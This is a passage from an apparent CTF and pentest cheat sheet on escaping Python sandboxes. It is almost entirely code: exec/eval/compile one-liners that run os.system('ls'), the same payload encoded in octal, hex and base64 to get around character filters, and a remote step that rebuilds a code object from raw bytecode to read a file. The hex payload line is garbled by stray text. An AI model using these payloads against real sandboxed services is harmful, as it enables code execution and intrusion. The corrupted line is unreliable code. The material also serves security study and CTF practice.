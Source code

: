sys.modules["os"].system("ls")

You can also import libraries and any file is using execfile() (python2):

execfile('/usr/lib/python2.7/os.py')
system('ls')

Python try to load libraries from the current directory first: python3 -c 'import sys; print(sys.path)'
Executing python code

This is really interesting if some characters are forbidden because you can use the hex/octal/B64 representation to bypass the restriction:

exec("print('RCE'); __import__('os').system('ls')") #Using ";"
exec("print('RCE')\n__import__('os').system('ls')") #Using "\n"
eval("__import__('os').system('ls')") #Eval doesn't allow ";"
eval(compile('print("hello world"); print("heyy")', '<stdin>', 'exec')) #This way eval accept ";"
__import__('timeit').timeit("__import__('os').system('ls')",number=1)
#One liners that allow new lines and tabs
eval(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))
exec(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))

#Octal
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
#Hex
exec("\x5f\x5f\x69\x6d\xIf youca70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
#Base64
exec('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='.decode("base64")) #Only python2
exec(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='))

Compiling

In a previous example you can see how to execute any python code using the compile function. This is really interesting because you can execute whole scripts with loops and everything in a one liner (and we could do the same using exec).
Anyway, sometimes it could be useful to create a compiled object in a local machine and execute it in the CTF (for example because we don't have the compile function in the CTF).

For example, let's compile and execute manually a function that reads ./poc.py:

#Locally
def read():
    return open("./poc.py",'r').read()
    
read.__code__.co_code
't\x00\x00d\x01\x00d\x02\x00\x83\x02\x00j\x01\x00\x83\x00\x00S'

#On Remote
function_type = type(lambda: None)
code_type = type((lambda: None).__code__) #Get <type 'type'>
consts = (None, "./poc.py", 'r')
bytecode = 't\x00\x00d\x01\x00d\x02\x00\x83\x02\x00j\x01\x00\x83\x00\x00S'
names = ('open','read')
​
# And execute it using eval/exec
eval(code_type(0, 0, 3, 64, bytecode, consts, names, (), 'noname', '<module>', 1, '', (), ()))
​
#You could also execut it directly
import __builtin__
mydict = {}
mydict['__builtins__'] = __builtin__
codeobj = code_type(0, 0, 3, 64, bytecode, consts, names, (), 'noname', '<module>', 1, '', (), ())
function_type(codeobj, mydict, None, None, None)()
